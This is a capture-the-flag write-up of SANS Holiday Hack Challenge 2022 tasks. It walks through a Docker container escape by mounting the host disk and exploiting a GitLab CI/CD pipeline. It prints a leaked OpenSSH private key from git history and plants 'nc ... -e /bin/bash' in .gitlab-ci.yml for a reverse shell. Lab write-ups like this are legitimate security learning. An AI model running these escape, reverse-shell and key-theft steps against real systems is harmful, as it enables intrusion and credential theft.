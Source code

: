 ```yaml
---
title: "SANS HHC 2022: Recover the Elfen Ring"
date: 2023-01-08 08:02:00 +0800
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [dev]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**SecDevOps and Supply Chain Attacks**

Identify malicious packages and then attack CI/CD processes to escape a container.

## Clone with a Difference

>Difficulty: 1/5
>
>Clone a code repository. Get hints for this challenge from Bow Ninecandle in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/783a12b31fd9115346d46f98b17b138926239c970b672753daf2d3badfb008ce.png)  

```bash
$ git clone git@haugfactory.com:asnowball/aws_scripts.git
Cloning into 'aws_scripts'...
The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
git@haugfactory.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

Found public repo at <https://haugfactory.com/orcadmin/aws_scripts>.

```bash
$ git clone https://haugfactory.com/orcadmin/aws_scripts
Cloning into 'aws_scripts'...
warning: redirecting to https://haugfactory.com/orcadmin/aws_scripts.git/
remote: Enumerating objects: 64, done.
remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
Unpacking objects: 100% (64/64), 23.83 KiB | 1.83 MiB/s, done.

$ cd aws_scripts && ls
README.md     container.py        ec2-instances.py  network.py     security.py
analytics.py  create_instance.py  iam.py            put_policy.py  send_ssm.py
compute.py    debug_instances.py  inventory.py      sample.json

$ tail -1 READMEmd
If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.

$ runtoanswer
Read that repo!
What's the last word in the README.md file for the aws_scripts repo?
> maintainers
Your answer: maintainers

Checking......
Your answer is correct!
```

## Prison Escape

>Difficulty: 3/5
>
>Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

![image](/assets/img/holiday_hack_challenge_2022/f51e1d8d89aa8b157c10f430b9bf38a8dd2a59eeb5af7c6457027e8c91af94be.png)  

Observed the presence of `.dockerenv` file in `/`.

![image](/assets/img/holiday_hack_challenge_2022/7552d1302c53232df373f5c2f495ac6faf0a7bb375e8441e9727dad48b676ba6.png)  

Researched on docker breakout. Reference: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>

Performed method described in `Mounting Disk - Poc1`.

Confirmed that root privileges can be obtained.

```bash
$ sudo su
# whoami
root
```

List the partition tables for the specified devices.

```bash
# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Create a mount point.

```bash
# mkdir /mnt/breakout
```

Mount disk to mount point.

```bash
# mount /dev/vda /mnt/breakout
```

Browse directories.

```bash
# cd /mnt/breakout/home && ls
jailer
```

Find flag.

```bash
# cd .ssh
# cat jail.key.priv
```

Hex string found: `082bb339ec19de4935867`

![image](/assets/img/holiday_hack_challenge_2022/26322faf076216bec9b87dc2e7053527bfe2d5b1836934ff19f9a07b50e12b06.png)  

## Jolly CI/CD

>Difficulty: 5/5
>
>Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/995469c9d24db62543077846c99d25fcd2c542b03eee2cd0c9bfcc156fa6ecc2.png)  

Performed the following steps to obtain openssh private key for impersonation purpose.

```bash
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git log
--Redacted--
whoops
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
--Redacted--

$ git show abdea0ebb21b156c01f7533cea3b895c26198c98
--Redacted--
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
--Redacted--
```

Thought through the solution and craft command list.

```
$ mkdir .ssh

$ cd .ssh

$ touch id_ed25519

$ echo -e '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==\n-----END OPENSSH PRIVATE KEY-----' > id_ed25519

$ chmod 400 id_ed25519

$ cd ..

$ eval "$(ssh-agent -s)"

$ ssh-add

Test connection:
$ ssh -T git@gitlab.flag.net.internal

$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git config --global user.email “sporx@kringlecon.com”

$ git config --global user.name “knee-oh”

$ nano .gitlab-ci.yml

Replace the script in .gitlab-ci.yml with the following command:
nc 172.18.0.99 8888 -e /bin/bash

$ git commit -am “payload”

$ git push && nc -lvp 8888

ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal

cd /

ls -la

cat flag.txt
```

Reverse shell established.

![image](/assets/img/holiday_hack_challenge_2022/12b087993f68131788566d4c473969a5bb7aa830f92f1f67adffafd10fb2993a.png)  

Obtained a shell via SSH.

![image](/assets/img/holiday_hack_challenge_2022/df51a3c91f09b19e34151388dbb33c665faba2ad4e3d306d5a1bfdfe11cc8c84.png)  

Found `flag.txt`.

![image](/assets/img/holiday_hack_challenge_2022/94c8c200ccbc83474d22a5158c7ddda79c860e32ecf483043900f80470623e4a.png)  

Show `flag.txt` contents.

ANS: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

![image](/assets/img/holiday_hack_challenge_2022/72826abcbba96d2ea0384d8575b861c92bf1f3a0b42038805709403fa643bc2e.png)  

Pondering further: Is the intended solution SSH? To use rsync requires knowledge of the source and destination. How to determine where `flag.txt` is stored without browsing?

Original script contents.

```
script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

Obtained Elfen Ring.
